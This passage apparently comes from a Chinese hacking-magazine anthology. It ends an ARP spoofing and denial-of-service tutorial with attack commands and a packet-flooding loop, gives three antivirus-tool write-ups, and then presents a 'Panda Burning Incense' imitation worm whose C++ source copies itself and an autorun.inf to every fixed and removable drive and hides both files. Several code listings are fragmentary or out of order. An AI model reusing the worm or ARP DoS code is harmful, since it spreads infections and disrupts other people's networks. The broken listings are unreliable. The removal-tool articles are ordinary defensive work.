这里所有的宏都可以在我提供的arp.h头文件里得到对应的定义。每一项都很清晰，主要是构造最后的几项（有注释的行），那里是滋生罪恶的源头。伪MAC包构造好了，最后剩下的就是发送伪数据包了，再次使用WinPcap库的发包函数，如下：`pcap_sendpacket(fp, buff, sizeof(buff));` 到这，可以长嘘一口气，大吼一声“打完收工”。

让我们测试一下成果，看是否能达到我们最开始预定的目标。输入`arpspoof.exe 192.168.3.155 192.168.3.125 11-22-33-44-55-66`，如图4所示。

首先，提示输入接口号，因为WinPcap库必须选择正确的网卡适配器接口。在笔者机器上，安装了两个虚拟机，所以有4个接口，2号接口代表本系统网卡接口，所以选2（你的可能不同），回车后，发现右下角马上提示IP地址冲突……嘿嘿，我们来分析一下，arpspoof.exe是我们欺骗程序，192.168.3.155是笔者的IP地址，192.168.3.162是同一局域网内另一主机IP。

`C:\>arpspoof.exe 192.168.3.155 192.168.3.162 11-22-33-44-55-66`

就是把192.168.3.155地址的MAC地址11-22-33-44-55-66添加到192.168.3.162这台主机的动态ARP缓存里，攻击过后，192.168.3.162的ARP缓存，如图5所示。


图5

刚才我把自己的IP当作参数1导致了自己的IP冲突，那如果我想使192.168.3.162这台机器产生IP冲突，就可以调换一下参数1和参数2的位置，即：

`C:\>arpspoof 192.168.3.162 192.168.3.155 11-22-33-44-55-66`

大家想想什么原理，呵呵，这里我就不多说了。如果想隐藏作为攻击者的IP，第2个参数可以改成网段内的任意其他的IP。这样，我们发起一次攻击，192.168.3.162的主机就产生一次IP冲突；但这样肯定是不够的，每隔一段时间，对方的ARP缓存就会刷新一次，所以，如果要进行一次ARP DoS攻击的话，我们还必须不断地给他们发，以保证对方ARP缓存始终是我们构造的伪MAC地址。实现起来很简单，如下所示：

```c
while(1) {
    if(pcap_sendpacket(fp, buff, sizeof(buff)) < 0) {
        printf("\nError: problems for sending packet\n");
        exit(1);
    }
    printf(".");
    sleep(DELAY);  /* 这里的 #define DELAY
                      (CLOCKS_PER_SEC >> 1) 即半秒 */
}
```

对方的MAC地址变成了00-00-00-00-00-00，攻击成功，如图7所示。


图7

攻击过程如图6所示。


图6

图6中的点就表示每隔半秒发送一次ARP包。结果是，在被DoS攻击后，如果再次PING 192.168.3.162，即使对方不开防火墙，也没有禁止PING，却仍然PING不通。查看自己的ARP缓存，我们发现：

#### 小结

在了解了ARP Spoof & DoS攻击的原理后，实现起来就不那么难了。在光盘的源代码文件里，只提供了一个源代码文件 arpspoof.cpp，它的作用是实现给目标IP添加ARP缓存，而 arpdos.cpp 我没有提供，以防止有人做坏事，呵呵。如果你是真心抱着学习的态度，那么我相信看完本文的你也能自己写出来。

> 【本文涉及的代码（程序），请见随书光盘】

## 杀毒类

### 病毒专杀工具编写（II）


文／图  单克隆抗体[S.U.S]

最近在我们校园网里，尤其是教室的电脑上面，U盘病毒横行。杀毒软件用的是趋势，加上又没有更新，老师和同学饱受病毒之苦，于是便想到要自己动手写一写专杀工具，为人民服务。

不过对于我等小菜，说起来容易做起来难，网上搜了半天源代码，毫无结果。看来只有从头来看自己的了。还好现在的一些病毒在杀毒软件还不知道时，网上已经有一些手动杀毒的方法，我们只需要稍作分析，写成程序就可以了。下面就以比较老一点的 sxs.exe 病毒为例，讲讲专杀工具的编写吧，这个病毒的特征如下。

- 1. 在系统目录下释放 `SVOHOST.exe` 和 `winsock.dll` 两个文件，病毒运行时会有 `SVOHOST.exe` 进程，而 `winsock.dll` 则注入到很多进程干一些非法的事情，比如盗QQ。
- 2. 添加注册表项 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\SoundMan: "C:\WINNT\System32\SVOHOST.exe"`，从而达到自启动的目的。
- 3. 修改 `HKEY_LOCAL_MACHINE\Software\Microsoft\windows\CurrentVersion\explorer\Advanced\Folder\Hidden\SHOWALL` 下的 `CheckedValue`，使系统无法显示隐藏文件。
- 4. 在系统每个盘（包括U盘）下释放 `autorun.inf` 和 `sxs.exe` 文件，即使重装操作系统仍然有可能中毒。

下面我就说说专杀工具的编写。我的编译环境是 Visual C++ 6.0 SP6 企业版，Windows XP Pro SP2。

#### 杀进程

很多后门程序都有 pskill 的功能，不过为了照顾本文的完整性，我还是把代码写了出来。这里参考了 ey4s 的部分代码。

```c
// 将进程名转换为PID的函数，这里用了 psapi.h 里的 Psapi.lib 库
DWORD ProcessToPID(char *InputProcessName)
{
    DWORD aProcesses[1024], cbNeeded, cProcesses;
    unsigned int i;
    HANDLE hProcess;
    HMODULE hMod;
    char szProcessName[MAX_PATH] = "UnknownProcess";
    // 计算当前有多少进程，aProcesses[] 用来存放有效的进程PIDs
    if (!EnumProcesses(aProcesses, sizeof(aProcesses), &cbNeeded)) return 0;
    cProcesses = cbNeeded / sizeof(DWORD);
    for (i = 0; i < cProcesses; i++) {
        hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, aProcesses[i]);
        if (hProcess) {
            if (EnumProcessModules(hProcess, &hMod, sizeof(hMod), &cbNeeded)) {
                GetModuleBaseName(hProcess, hMod, szProcessName, sizeof(szProcessName));
                if (!_stricmp(szProcessName, InputProcessName)) {
                    CloseHandle(hProcess);
                    return aProcesses[i];
                }
            }
        }
    }
    return 0;
}

BOOL SetPrivilege(HANDLE hToken, LPCTSTR lpszPrivilege, BOOL bEnablePrivilege) {
    TOKEN_PRIVILEGES tp;
    LUID luid;
    if (!LookupPrivilegeValue(NULL, lpszPrivilege, &luid)) return FALSE;
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = bEnablePrivilege ? SE_PRIVILEGE_ENABLED : 0;
    AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL);

    // Call GetLastError to determine whether the function succeeded.
    if (GetLastError() != ERROR_SUCCESS) return FALSE;
    return TRUE;
}

int Pskill(DWORD id)   // 根据进程号杀进程
{
    HANDLE hProcess = NULL, hProcessToken = NULL;
    BOOL IsKilled = FALSE, bRet = FALSE;
    char ToBeSended[255] = {0}; // 打开本进程令牌
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hProcessToken)) return -1;
    // 提升权限
    if (!SetPrivilege(hProcessToken, SE_DEBUG_NAME, TRUE)) {
        CloseHandle(hProcessToken);
        return -2;
    }
    // 打开某进程
    if ((hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, id)) == NULL) {
        CloseHandle(hProcessToken);
        return -3; // 结束某进程
    }
    if (!TerminateProcess(hProcess, 1)) {
        CloseHandle(hProcessToken);
        CloseHandle(hProcess);
        return -4;
    } else {
        IsKilled = TRUE;
    }
    if (hProcessToken != NULL) CloseHandle(hProcessToken);
    if (hProcess != NULL) CloseHandle(hProcess);
    return (IsKilled); // 成功就返回TRUE
}
```

啊，那简直等于关闭了系统。

既然病毒能够远程地把DLL注入到别的进程，那么我们当然就可以利用类似的方法把它解除掉。著名的 IceSword 不就可以卸掉吗？于是网上搜索，搜得天昏地暗，海枯石烂，没有结果！后来请教了“楚哲”大哥，在参考了“冰河安全实验室”的博客后，这个难关终于让我突破了。

记得在2006年12期的《黑客防线》杂志上，冷家锋同学的《搞定远程进程注入DLL——以ShellCode之名》的文章，的确是思路十分开阔，只可惜小弟不才，ShellCode还不怎么会。其实，我们不用ShellCode也可以搞定。请看我下面的代码。

```cpp
int KillDll(char *DllName){
    // 解除所有进程中某DLL模块的加载
    HANDLE hProcess=NULL,hProcessToken=NULL;
    if(!OpenProcessToken(GetCurrentProcess(),TOKEN_ALL_ACCESS,&hProcessToken)) return -1;
    if(!SetPrivilege(hProcessToken,SE_DEBUG_NAME,TRUE)) { // 提升本进程权限
        if(hProcessToken!=NULL) CloseHandle(hProcessToken);
        return -2;
    }
    DWORD aProcesses[1024], cbNeeded, cProcesses;
    unsigned int i;
    // 计算目前有多少进程，aProcesses[]用来存放有效的进程PIDs
    if(!EnumProcesses(aProcesses, sizeof(aProcesses), &cbNeeded)) return -11;
    cProcesses = cbNeeded / sizeof(DWORD);
    // 按有效的PID遍历所有的进程
    for (i = 0; i < cProcesses; i++) {
        if((hProcess = OpenProcess(PROCESS_ALL_ACCESS,FALSE,aProcesses[i]))==NULL) {
            continue;
        }
        // 向目标进程地址空间写入DLL名称
        DWORD dwSize, dwWritten;
        dwSize=strlen(DllName)+1;
        LPVOID lpBuf = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
        if (lpBuf == NULL) {
            CloseHandle(hProcess);
            continue;
        }
        // 向其中写入dll的名称
        if(WriteProcessMemory(hProcess, lpBuf, (LPVOID)DllName, dwSize, &dwWritten)) {
            // 若写入字节数与实际写入字节数不相等，仍属失败
            if(dwWritten != dwSize) {
                VirtualFreeEx(hProcess, lpBuf, dwSize, MEM_DECOMMIT);
                CloseHandle(hProcess);
                continue;
            }
        } else {
            CloseHandle(hProcess);
            continue;
        }
    }
}
```

有了上面的3个函数后，一般的病毒进程就都可以搞定了，而且搞定像 winlogon.exe 这样的进程也不在话下。为了方便使用，我们还可以编写下面这个函数：

```cpp
int KillProcess(char *ProcessName){
    // 用名称杀进程
    return Pskill(ProcessToPID(ProcessName));
}
```

这样的话，在我们的杀毒代码中，一个 `KillProcess("svchost.exe");` 就可以干掉它了。

### 解除DLL的加载

一般的病毒，在结束进程后就可以删除它的文件了，但是这个 sxs.exe 可顽固着呢。它的那个 winsock.dll 注入到很多像 explorer.exe 一样的进程，难道我们还要把它们都结束才能删掉 winsock.dll 吗？

```cpp
// 使目标进程调用 GetModuleHandle，获得DLL在目标进程中的句柄
DWORD dwHandle, dwID;
LPVOID pFunc = GetModuleHandleA;
HANDLE hThread = CreateRemoteThread(...);
WaitForSingleObject(hThread, INFINITE);
GetExitCodeThread(hThread, &dwHandle);
VirtualFreeEx(hProcess, lpBuf, dwSize, MEM_DECOMMIT);
CloseHandle(hThread);

// 使目标进程调用 FreeLibrary，卸载DLL
pFunc = FreeLibrary;
hThread = CreateRemoteThread(hProcess, NULL, 0,
 (LPTHREAD_START_ROUTINE)pFunc, (LPVOID)dwHandle, 0, &dwID);
WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);
CloseHandle(hProcess);
return 0;
```

上面代码的基本思路是打开所有的进程，查找里面是否存在我们要找的DLL模块，如果存在，则先得到DLL模块的句柄，然后 FreeLibrary。整个过程的难点在“向目标进程地址空间写入DLL名称”上……在这里，lpBuf 所指的就是这部分空间。

#### 删除文件

有了前面的基础，这个病毒可以说就被我们制服了。下面就是将它清除了。删除文件的代码实现我用的是 MFC 里的 CFile 类，很方便，具体代码如下所示。

```cpp
int DeleteFile(char *FileName){
    CFileStatus status;
    if(CFile::GetStatus(FileName,status)==FALSE) return -1;
    status.m_attribute = 0x00;
    CFile::SetStatus(FileName,status);   // 重新设置文件属性（去掉只读、系统等）
    CFile::Remove(FileName);             // 删除文件
    return 0;
}
```

大家记得在删除前要先把文件的只读、隐藏、系统等属性去掉，不然会报错的。

#### 修改注册表

首先，我们要去掉病毒的启动项，其代码如下所示。

```cpp
if(RegOpenKeyEx(HKEY_LOCAL_MACHINE,
 "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\",
 0, KEY_READ|KEY_WRITE, &hKey) == ERROR_SUCCESS)
{
    if(RegDeleteValue(hKey, "SoundMan") == ERROR_SUCCESS)
        MessageBox("Ok!");  // 提示成功
}
```

然后是修复无法显示隐藏文件的问题，实现代码如下。

```cpp
long Retn;
DWORD keyData=0;
DWORD Type;
DWORD szSize;
LPSTR lpValueName="CheckedValue";

if(RegOpenKeyEx(HKEY_LOCAL_MACHINE,
 "Software\\Microsoft\\windows\\CurrentVersion\\explorer\\Advanced\\Folder\\Hidden\\SHOWALL\\",
 0, KEY_READ|KEY_WRITE, &hKey) == ERROR_SUCCESS)
{
    Retn = RegQueryValueEx(hKey, lpValueName, 0, &Type, (LPBYTE)&keyData, &szSize);
    if(Retn != ERROR_SUCCESS || Type != REG_DWORD || keyData != 1){
        RegDeleteValue(hKey, "CheckedValue");
        DWORD dwDisposition;
        DWORD dwData = 0x00000001;
        if(RegCreateKeyEx(..., &hKey, &dwDisposition) == ERROR_SUCCESS)
            if(RegSetValueEx(hKey, "CheckedValue", 0, REG_DWORD, (LPBYTE)&dwData, sizeof(DWORD)) == ERROR_SUCCESS)
                MessageBox("ok!");
    }
}
```

关于注册表的操作，实在没有什么好办法，大家只有好好地看看 MSDN，相应的说明还是很清楚的，这里就不赘述了。

### 删除其他盘（包括U盘）的病毒

这里主要是指删除根目录下的 autorun.inf 和 sxs.exe 文件。具体代码如下。

```cpp
char Drive[3] = {"A:"};
char *p = &Drive[0];
char FileToDel[MAX_PATH] = {'\0'};
for(char i='A'; i<='Z'; i++){
    (*p) = i;
    if(GetDriveType(Drive) == DRIVE_FIXED){
        ...
    }
}
```

```cpp
if (GetDriveType(Drive) == DRIVE_REMOVABLE) {
  // 是固定磁盘或可移动的
  strcpy(FileToDel, "");
  strcat(FileToDel, Drive);
  strcat(FileToDel, "\\autorun.inf");
  if (DeleteFile(FileToDel) == 0) MessageBox("ok");
  // 删除成功
  strcpy(FileToDel, "");
  strcat(FileToDel, Drive);
  strcat(FileToDel, "\\sxs.exe");
  if (DeleteFile(FileToDel) == 0) MessageBox("ok");
  // 删除成功
}
// the end of if
// the end of for (char i='A'; i<='Z'; i++)
```

这段代码主要是通过一个 for 循环来遍历所有的盘，然后尝试逐个删除文件。到此，这个 sxs.exe 病毒就算清除完成了。等等，好像忘了点什么？哦，想起来了，杀完毒还要重启一下，解除掉 autorun.inf 的加载。至于如何重启则不在本文的讨论之列了，大家想想就应该知道怎么实现了。

本文主要是提供一个专杀工具编写的实例，其他病毒很多都比较类似，无非就这几种应对方法。至于像那些感染 exe 的病毒，则有待日后进一步研究杀毒方法了。希望本文能给大家带来一些启示。

### 精心呵护：流氓软件专杀工具


文／图 冷风后方

最近机房中了一种弹出网页式的流氓软件 ttdianying，毛病倒是不大，只是很讨人厌，每隔几分钟就会弹出一次，游戏也玩不安心，如图1所示。用杀毒软件、360安全卫士、超级兔子都查不出个所以然来，上 Google 搜索也是哀声一片，并无清除方法，于是只能自己动手解决了。

#### 分析程序

为了大体了解此恶意软件的动作，先用 SSS 跟踪一下，发现此程序只是更改注册表就运行了程序，并无线程注入、加载驱动等其他动作，因此清除起来也方便得多。我们可按如下思路清除：首先结束进程，然后删除文件，最后清理注册表，就可以清除此软件了。

因为机房有近百台机器，如果一台一台恢复，等我恢复完了估计也得跟着一块挂掉了，所以就写了一个专杀工具。


#### 找出真凶

这类软件一般都是自启动的，我们就从注册表开始。打开注册表定位到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，里面有一个名为 svchost 的项指向路径 `C:\WINNT\System32\drivers\svchost.exe`。这有点古怪，首先系统不需要在这里启动 svchost 服务，再者 svchost.exe 也不应该出现在 `C:\WINNT\System32\drivers` 目录里，而雅虎助手也频频提示 svchost.exe 试图更改 IE 启动页面。我们把 svchost.exe 复制出来好好研究一下看看。

#### 编写程序

通常我们需要通过枚举系统进程来查找流氓软件。此流氓软件的进程名为 svchost.exe，而系统中有很多 svchost.exe 进程，那么根据进程名判断就行不通了，不过我们可以在枚举进程时列出程序路径，根据路径定位流氓软件，程序运行效果如图2所示。专杀工具的具体代码如下所示，在 VC6.0、Windows 2000/XP 下测试通过。


图2

```cpp
#include <stdio.h>
#include <windows.h>
#include "PSAPI.H"
#pragma comment(lib, "PSAPI.LIB")
int TerminateProcessFromId(DWORD dwId);
// 结束进程函数
BOOL EnablePriv();
// 提升进程权限
int main(void)
{
    printf("流氓软件tidianying专杀工具 by 冷风凌人\n\n");
    DWORD processid[1024], needed, processcount, i;
    HANDLE hProcess;
    HMODULE hModule;
    char path[256] = "";
    char name[256] = "system32\\drivers\\svchost.exe";
    // 流氓进程字符串
    BOOL ret = true;
    EnablePriv(); // 提升进程权限
    EnumProcesses(processid, sizeof(processid), &needed);
    processcount = needed / sizeof(DWORD);
    for (i = 0; i < processcount; i++)
    {
        hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, processid[i]);
        EnumProcessModules(hProcess, &hModule, sizeof(hModule), &needed);
        // 枚举进程
        GetModuleFileNameEx(hProcess, hModule, path, sizeof(path));
        // 得到进程路径
        if (strstr(path, name))
        {
            // 是否包含流氓进程字符串
            printf("发现流氓进程...\n\n");
            TerminateProcessFromId(processid[i]);
            // 调用结束进程函数
            printf("正在删除文件...\n\n");
            DeleteFile(path);
            printf("正清理注册表...\n\n");
            HKEY key;
        }
    }
}
```

```cpp
LPCTSTR data = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
RegOpenKeyEx(HKEY_LOCAL_MACHINE, data, 0, KEY_WRITE, &key);
RegDeleteValue(key, "svchost");
RegCloseKey(key);
printf("软件清理成功...\n\n");
ret = false;

if (ret)
    printf("没有发现流氓软件...\n\n");

CloseHandle(hProcess);
CloseHandle(hModule);
return 0;

int TerminateProcessFromId(DWORD dwId)
// 结束进程函数
{
    BOOL bRet = FALSE;
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwId);
    if (hProcess != NULL)
    {
        bRet = TerminateProcess(hProcess, 0);
    }
    CloseHandle(hProcess);
    if (bRet)
        printf("进程结束成功...\n\n");
    else
        printf("进程结束失败...\n\n");
    return 0;
}

BOOL EnablePriv()
// 提升进程权限
{
    HANDLE hToken;
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
    {
        TOKEN_PRIVILEGES tkp;
        LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tkp.Privileges[0].Luid);
        tkp.PrivilegeCount = 1;
        tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
        AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL);
        return (GetLastError() == ERROR_SUCCESS);
    }
}
```

好了，以上就是我编写的专杀工具了，感觉如何？如果大家以后也碰到了类似的问题，只要把上面的代码稍加修改，你也可以做出自己的专杀工具啦！

【本文涉及的代码（程序），请见随书光盘】

## 杀U盘终结杀毒软件

## ——U盘病毒扼杀在萌芽阶段

文／图 西邮猎手［王聪］


现在大家最讨厌的可能就是病毒了。不方便上网的朋友们，总喜欢拿 U 盘或移动硬盘到别人的电脑上拷点东西，但现在有很多病毒都是通过 U 盘传播的。对于一些较新的病毒，连杀毒软件也束手无策，这样就只有我们手动清除了。下面我带领大家剖析 U 盘病毒的传播原理，以及学会如何预防，并且能够用所学的知识自己编写一个程序，傻瓜式地将它们杀死。

```ini
[autorun]
open=.\RECYCLER\RECYCLER.exe
shell\1=打开(&O)
shell\1\Command=.\RECYCLER\RECYCLER.exe
shell\2=浏览(&B)
shell\2\Command=.\RECYCLER\RECYCLER.exe
shellexecute=.\RECYCLER\RECYCLER.exe
```

看见里面的可执行文件了吗？其中的 RECYCLER.exe 就是病毒，放在 RECYCLER 文件夹里。你可别以为它是“回收站”，回收站应该是 Recycled。有了这个文件，当我们将 U 盘插在电脑上时就会跳出一个“自动播放”的对话框，自动运行里面的病毒文件。当我们“双击”或者打开右键点“打开”“浏览”U 盘时，也会运行里面的病毒文件。

#### 传播原理

这类病毒和木马通常是在移动硬盘或是 U 盘的根目录下建一个 autorun.inf 文件来传播的。这个文件会被设置成“只读”“系统”“隐藏”属性，我们要进行一番设置才能看见。方法是在“文件夹选项”里选中“显示所有文件和文件夹”，清除“隐藏受保护的操作系统文件（推荐）”复选框，如图1所示。好了，现在就可以看见了，打开它，我们会看见如下的内容（不同的病毒，可能名字和存放路径不太一样，但原理都是一样的，不管它怎么变，总有一个“open=”，下面我就以下面这种为例进行讲解）。

#### 如何预防

关闭“自动播放”功能。在“开始->运行”中输入 gpedit.msc 打开组策略，在计算机配置中选择管理模板中的系统，找到“关闭自动播放”如图2所示。单击右键，点属性，在“设置”中选择“已启用”，并在下拉选项中选择“所有驱动器”，点确定即可。


图1


图2


“确定”，如图3所示。以后 U 盘插在电脑上就不会跳出“自动播放”对话框了。现在只要不打开我们的 U 盘，病毒就不会自动运行了。

现在我们想要知道 autorun.inf 文件里病毒的名字和路径，可是我们现在又不敢打开 U 盘，那怎么办呢？还好 Windows 2000 及以上的系统中都带有命令提示符。好了，在“运行”里面输入“CMD”打开命令提示符，并输入命令：`type f:\autorun.inf`（这里的 f 是我 U 盘的盘符，大家只需改成自己的盘符就行了），会看到如图4所示的内容。


删除 autorun.inf 和病毒文件。同样是在命令提示符里输入命令：`del /f /a r s h f:\autorun.inf` 和 `del /f /a r s h f:\RECYCLER\RECYCLER.exe`。如果病毒不止一个，可以根据实际情况多加几条 del 命令。这里的 del 表示删除，`/f` 表示强制删除只读文件，`/a r s h` 表示删除属性为“只读(r)”“系统(s)”“隐藏(h)”的文件，没有这些属性的文件也同样会被删除。

现在，U 盘里通过 autorun 传播的病毒就已经全部删除了，可以放心打开 U 盘了。

#### 自己编写“杀毒软件”

如果我们每次使用 U 盘时都按照上面的方法来做，岂不是很麻烦？下面就开始我们的核心之旅，用 C 语言编写一个小程序，达到双击就能删除病毒的目的。

我的思路是：用 C 程序提取 autorun.inf 中病毒的名字和路径，并在其前面加上 del 命令，然后保存为一个批处理文件，自动删除。根据 autorun.inf 的特点，我编写的 C 语言程序代码如下。

```cpp
#include "stdio.h"
#include "ctype.h"
```

```cpp
main()
{
  int i=0,j=0,k=0;
  char autorun[10][50],del[200]="del /f /a r s h f:\\autorun.inf del /f /a r s h f:";

  /* 盘符f可根据实际情况修改 */
  FILE *fp,*DEL;
  if((fp=fopen("f:\\autorun.inf","r"))!=NULL)
  {
    /* 先判断有没有自动播放文件 */
    for(i=0;i<10;i++)
      fgets(autorun[i],50,fp);
    /* 将autorun.inf的内容全部读入二维数组autorun[][] */

    for(i=0;i<10;i++)
      if(tolower(autorun[i][j])=='o'&&tolower(autorun[i][j+1])=='p'&&tolower(autorun[i][j+2])=='e'&&tolower(autorun[i][j+3])=='n'&&tolower(autorun[i][j+4])=='=') break;
    /* 找到包含“open=”的语句 */

    for(j=6,k=49;j<50;j++,k--)
      del[k]=autorun[i][j];
    /* 将“open=”后面的病毒的名字和路径写入数组del[] */

    DEL=fopen("C:\\kill.bat","wt+");
    fputs(del,DEL);
    /* 将数组del[]的内容保存成一个批处理文件 */
  }
}
```

我将其编译成一个 kill.exe 文件，放在 C 盘根目录下。在桌面上再写一个 autorunkill.bat 批处理，其内容如下：

```bat
c:\kill.exe
c:\kill.bat
```

当插上 U 盘后，双击 autorunkill.bat 文件，病毒就会被删除。此批处理执行的过程是：先运行 kill.exe，会在 C 盘根目录下生成 kill.bat 文件（它才是真正能删除病毒的程序，内容为 `del /f /a r s h f:\autorun.inf del /f /a r s h f:\RECYCLER\RECYCLER.exe`），接着运行 kill.bat，然后关闭窗口。

这样，一个自己编写的杀毒软件就可以使用了，大家可以根据自己的需要多加一些功能。在编写中，大家要注意有些地方要灵活改变，否则可能用不成。比如 U 盘的盘符、批处理保存的路径（如果你也保存在 C 盘根目录下，就不用修改了）。另外，保存的路径中不能有中文名称，比如“桌面”，因为 C 语言不能识别中文名称。

#### 总结

以前总有人抱怨，说学校里学的 C 语言没有什么用，今天看到它的妙用了吧？本文没有什么技术含量，学过 C 语言的朋友都能看懂。写这篇文章主要是想提醒大家，平时多注意一些常见病毒发作的机理，然后根据它们的特征，用自己学过的知识 DIY 一个杀毒软件，毕竟自己的东西用着放心嘛。

> 【本文涉及的代码（程序），请见随书光盘】

## 浅谈熊猫烧香的特性

## ——仿制版完整


文／图 暗夜舞者

最近一段时间，各大杀毒软件公司的病毒排行榜都有了新的变化，熊猫烧香位居榜首，被称为“毒王”。我们这里暂且不说其危害性，单就其传染性就很值得研究一番。于是写了一个小程序 worm.exe，用以仿制“熊猫烧香”病毒，其中没有破坏性的恶意代码，只是再现了病毒的传播功能。

运行 worm.exe 后，程序会自动搜索本机的所有盘符，并在硬盘和 U 盘根目录下生成 autorun.inf 文件和本程序的复制文件 a.exe。重启机器后，双击盘符就会自动运行病毒文件 a.exe。另外，本程序暂时不涉及注册表的操作。下面先看看 autorun.inf 中的内容，如下所示。

```ini
[autorun]
OPEN=a.exe
```

worm.exe 程序的代码主要由以下几个重要函数构成，下面分别予以介绍。

```cpp
BOOL FilesExist(LPCTSTR filename)
{
    CFileFind fFind;
    return fFind.FindFile(filename);
}
```

这个函数没有什么好介绍的，只是查看指定的文件是否存在，若存在则返回1，否则返回0。

```cpp
BOOL CwormDlg::FilesCreate(void)
{
    CStdioFile file;
    LPCTSTR s1="[autorun]\n";
    LPCTSTR s2="OPEN=a.exe";
    if(file.Open("autorun.inf", CFile::modeCreate|CFile::modeWrite|CFile::typeText)==0)
    {
        return 0;
    }
    file.WriteString(s1);
    file.WriteString(s2);
    file.SetLength(file.GetPosition());
    file.Close();
    return 1;
}
```

```cpp
file.SetLength(file.GetPosition());// 设置文件长度
file.Close();// 关闭文件
return 1;// 如果创建文件成功则返回
```

这个函数负责创建 autorun.inf 文件，和 worm.exe 在同一目录下。它是一个布尔类型函数，如果创建成功则返回1，否则为0。需要注意的是：`LPCTSTR s1="[autorun]\n"` 中别忘了换行符号“\n”。

```cpp
void FileEXE(void)
{
    BOOL retu=FilesExist("C:\\a.exe");
    if(retu==0)
    {
        FilesCreate();
        for(char i='A';i<='Z';i++)
        {
            char drive1[20]={i, ':'};
            char drive2[20]={i, ':'};
            if((GetDriveType(drive1)==DRIVE_FIXED)||(GetDriveType(drive1)==DRIVE_REMOVABLE))
            {
                LPCTSTR st=strcat(drive1, "\\autorun.inf");
                LPCTSTR se=strcat(drive2, "\\a.exe");
                CopyFile("autorun.inf", st, false);
                CopyFile("worm.exe", se, false);
                SetFileAttributes(st, FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_HIDDEN);
                SetFileAttributes(se, FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_HIDDEN);
            }
        }
    }
}
```

此函数首先判断本机是否被感染，如果没有，则遍历所有盘符，并在每个盘的根目录下复制本身和 `autorun.inf` 文件，并把这两个文件的属性设置为“系统”和“隐藏”。最后把这个函数放在 `OnInitDialog()` 中，这和“熊猫烧香”有相似之处。当机器重启后，双击盘符便可自动运行，所以中毒之后即使重装机器，如果不小心双击了其他未格式化的盘符，则病毒又会死灰复燃。

经过这样的编写，`worm.exe` 就已经具备了蠕虫特性，如图1所示是卡巴斯基的警报。不过 `worm.exe` 程序并没有涉及注册表、文件关联、进程监视等，也没有像“熊猫烧香”那样删除 GHO 文件的恶毒代码，所以并没有什么危险性。

最后说明一点，本文写作的目的仅仅是给那些在编程方面刚入道的菜鸟们一点帮助，体会编程的魅力。在上面提供的代码的基础上，大家还可以自己添加代码以扩展其功能；但是千万不要用于非法途径，否则后果自负。

图1

> 【本文涉及的代码（程序），请见随书光盘】

## 自己编写ANI蠕虫专杀工具

文/图 蒋韬生

最近互联网上 ANI 漏洞闹得沸沸扬扬，由于微软没有及时推出相关补丁，使得不少网民继熊猫烧香、灰鸽子之后又一次受害。今天朋友说他的机器运行慢，硬盘灯不停地闪，要我帮忙看看。经过一番查找，终于在 Windows 下的 System32 目录下发现了一个不明 EXE 执行文件，把它关掉后，硬盘灯继续狂闪……于是拿了一个样本回去分析，发现它是极具破坏性的病毒“麦英虫（worm.myinfect.af）”，也就是 ANI 蠕虫。

虽然它并不是以破坏用户电脑为目的，感染该病毒后几乎无法察觉，但它会从网上下载多种木马、后门病毒，使得用户游戏等账号被盗，或者电脑变成被黑客控制的“肉鸡”，危害比单纯破坏用户计算机的病毒更大。

我把它反汇编后，发现这十几K的小东西是用汇编写的，调用了 `GetSystemDirectoryA` 函数，把自身放到了系统的 `System32` 目录里，如图1所示，并在注册表里设置为自启动。它在注册表中添加了如下内容：

```cpp
push 104
lea eax,dword ptr ss:[esp+234]
push eax
mov dword ptr ss:[esp+10],0
call dword ptr ds:[<&KERNEL32.GetSystemDirectoryA>]
...
```

图1

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
"System Boot Check"="C:\WINDOWS\system32\sysload3.exe"
```

修改完注册表后，它会启动 IE 进程，向 IE 进程注入病毒代码，并连接网络下载病毒配置文件。看了下病毒配置文件，再看了看接下来的代码，发现它竟然会自动升级！病毒也升级……随后它又修改了 Host 文件，屏蔽了一系列网站；它还会不断地枚举所有驱动器，把自身写到驱动器中，并生成一个 `autorun.inf` 文件，传播病毒。最后，我还在病毒里发现了“I will by one BMW this year!”的留言，意思是“我今年会有一辆宝马”，这些病毒编写者真是钱字当头呀！

分析完了，我们当然要写一个自己的专杀工具啦。我的实现思路是：既然病毒是利用注册表实现自启动的，那我们当然得删掉注册表的“System Boot Check”值了，但是必须要先杀病毒的主进程和副本，然后再删掉注册表的启动值，不然的话，病毒有可能会把删掉的注册表启动值再写回去。然后把 Host 文件改回来，Windows XP 的 Host 文件在“C:\WINDOWS\system32\drivers\etc”目录中，文件名为 hosts。好了，下面我们就开始打造自己的专杀工具吧，先解释一下我们会用到的函数和类。

`GetLogicalDriveStrings` 函数用来枚举所有的盘符，`CFileFind` 是一个 MFC 中的文件类，派生于 `CFile` 类，功能强大，可以用来查找文件，本文就是用它来操作文件的。`DeleteFile` 是删掉病毒关键的一个 API，它可以删除文件。`AfxBeginThread(sound, NULL, THREAD_PRIORITY_NORMAL)` 用于创建一个名为 `sound` 的线程，为了让用户了解到杀毒的进度，所以我使用了线程技术。同时，这款专杀工具还用到了 MD5 作为病毒的检测技术。虽然 MD5 算法从理论上来说有可能找到相同特征的文件，但几率比地球爆炸还小！

接下来，我们就看一下实现这款专杀工具的关键代码吧！

